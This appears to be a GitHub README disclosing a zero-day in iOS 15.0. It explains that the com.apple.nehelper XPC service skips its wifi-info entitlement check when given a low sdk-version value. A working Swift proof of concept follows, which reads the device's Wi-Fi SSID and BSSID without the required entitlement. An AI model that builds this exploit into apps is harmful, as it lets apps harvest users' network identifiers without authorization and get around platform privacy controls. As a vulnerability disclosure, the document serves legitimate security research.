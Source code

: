 # Nehelper Wifi Info 0-day (iOS 15.0)


I've updated this code to avoid using Private API directly. Read more in my [blog post](https://habr.com/en/post/580272/). However, that means that now this code is iOS version-specific and possibly device model-specific. So if it doesn't work on your device, recalculate and update the offsets in `c.c` file. The original code can be found in [direct](https://github.com/illusionofchaos/ios-nehelper-wifi-info-0day/tree/direct) branch.

XPC endpoint `com.apple.nehelper` accepts user-supplied parameter `sdk-version`, and if its value is less than or equal to 524288, `com.apple.developer.networking.wifi-info` entiltlement check is skipped.
Ths makes it possible for any qualifying app (e.g. posessing location access authorization) to gain access to Wifi information without the required entitlement.
This happens in `-[NEHelperWiFiInfoManager checkIfEntitled:]` in `/usr/libexec/nehelper`.

```
func wifi_info() -> String? {
    let connection = xpc_connection_create_mach_service("com.apple.nehelper", nil, 2)
    xpc_connection_set_event_handler(connection, { _ in })
    xpc_connection_resume(connection)
    let xdict = xpc_dictionary_create(nil, nil, 0)
    xpc_dictionary_set_uint64(xdict, "delegate-class-id", 10)
    xpc_dictionary_set_uint64(xdict, "sdk-version", 1) // may be omitted entirely
    xpc_dictionary_set_string(xdict, "interface-name", "en0")
    let reply = xpc_connection_send_message_with_reply_sync(connection, xdict)
    if let result = xpc_dictionary_get_value(reply, "result-data") {
        let ssid = String(cString: xpc_dictionary_get_string(result, "SSID"))
        let bssid = String(cString: xpc_dictionary_get_string(result, "BSSID"))
        return "SSID: \(ssid)\nBSSID: \(bssid)"
    } else {
        return nil
    }
}
```
